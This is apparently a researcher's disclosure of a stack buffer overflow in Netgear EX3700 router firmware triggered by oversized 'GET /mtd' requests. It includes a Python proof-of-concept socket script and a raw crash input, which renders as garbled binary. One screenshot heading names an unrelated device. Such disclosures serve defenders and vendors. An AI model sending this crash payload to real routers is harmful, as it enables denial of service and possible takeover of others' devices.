 # Overview
Details of the vulnerability found in the netgear router ex3700.This vulnerability affects all firmware versions before 1.0.0.88.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex3700    | before 1.0.0.88    | https://www.downloads.netgear.com/files/GDC/EX3700/EX3700_EX3800-V1.0.0.88_1.0.58.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_41619C at offset 0x0041684C, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET /mtd`.
![second](./assets/2.png)
- Since the program uses memset(&v22[6], 0, 94);, the maximum size of the v22 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.7"
port = 80
file = "../crashes/id0"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id0

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET /mtd�������������������������t������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������ggggggggggggggg������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������l M�Contdnt-Dispo�ibion:rl3
```

# Vulnerability Verification Screenshot
##  dcs-5020l-1.01_B2
![3.png](./assets/3.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.
